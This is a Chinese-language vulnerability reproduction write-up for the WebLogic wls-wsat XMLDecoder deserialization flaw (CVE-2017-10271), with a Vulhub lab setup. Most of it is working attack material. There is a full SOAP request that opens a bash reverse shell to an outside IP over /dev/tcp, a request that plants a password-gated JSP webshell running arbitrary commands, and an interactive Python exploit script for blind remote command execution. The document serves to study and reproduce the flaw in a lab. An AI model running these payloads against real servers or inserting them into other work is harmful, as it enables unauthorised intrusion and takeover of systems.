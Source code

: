 # Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞 CVE-2017-10271

## 漏洞描述

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

参考链接：

- https://www.exploit-db.com/exploits/43458/
- https://paper.seebug.org/487/
- [https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic%20WLS-WebServices组件反序列化漏洞分析.md](https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic WLS-WebServices组件反序列化漏洞分析.md)
- http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html

## 环境搭建

Vulhub启动测试环境：

```
docker-compose up -d
```

等待一段时间，访问`http://your-ip:7001/`即可看到一个404页面，说明weblogic已成功启动。

![image-20220302164201482](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021642629.png)

## 漏洞复现

### 反弹shell

发送如下数据包（注意其中反弹shell的语句，需要进行编码，否则解析XML的时候将出现格式错误）：

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.174.128/9999 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

成功获取shell：

![image-20220302164442146](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021644422.png)

### webshell

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
    <% if("poc".equals(request.getParameter("pwd"))){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
    int a = -1; byte[] b = new byte[2048]; out.print("<pre>");
            while((a=in.read(b))!=-1){
                out.println(new String(b,0,a));
            }
            out.print("</pre>");
        }
    %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

访问：`http://your-ip:7001/bea_wls_internal/test.jsp`，执行命令：

![image-20220302165701848](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021657971.png)

## 漏洞EXP

```python
from __future__ import print_function
from builtins import input
import requests
import sys

url_in = sys.argv[1]
payload_url = url_in + "/wls-wsat/CoordinatorPortType"
payload_header = {'content-type': 'text/xml'}


def payload_command (command_in):
    html_escape_table = {
        "&": "&amp;",
        '"': "&quot;",
        "'": "&apos;",
        ">": "&gt;",
        "<": "&lt;",
    }
    command_filtered = "<string>"+"".join(html_escape_table.get(c, c) for c in command_in)+"</string>"
    payload_1 = "<soapenv:Envelope xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"> \n" \
                "   <soapenv:Header> " \
                "       <work:WorkContext xmlns:work=\"http://bea.com/2004/06/soap/workarea/\"> \n" \
                "           <java version=\"1.8.0_151\" class=\"java.beans.XMLDecoder\"> \n" \
                "               <void class=\"java.lang.ProcessBuilder\"> \n" \
                "                  <array class=\"java.lang.String\" length=\"3\">" \
                "                      <void index = \"0\">                       " \
                "                          <string>cmd</string>                 " \
                "                      </void>                                    " \
                "                      <void index = \"1\">                       " \
                "                          <string>/c</string>                  " \
                "                      </void>                                    " \
                "                      <void index = \"2\">                       " \
                + command_filtered + \
                "                      </void>                                    " \
                "                  </array>" \
                "                  <void method=\"start\"/>" \
                "                  </void>" \
                "            </java>" \
                "        </work:WorkContext>" \
                "   </soapenv:Header>" \
                "   <soapenv:Body/>" \
                "</soapenv:Envelope>"
    return payload_1

def do_post(command_in):
    result = requests.post(payload_url, payload_command(command_in ),headers = payload_header)

    if result.status_code == 500:
        print("Command Executed \n")
    else:
        print("Something Went Wrong \n")



print("***************************************************** \n" \
       "****************   Coded By 1337g  ****************** \n" \
       "*  CVE-2017-10271 Blind Remote Command Execute EXP  * \n" \
       "***************************************************** \n")

while 1:
    command_in = input("Eneter your command here: ")
    if command_in == "exit" : exit(0)
    do_post(command_in)
```

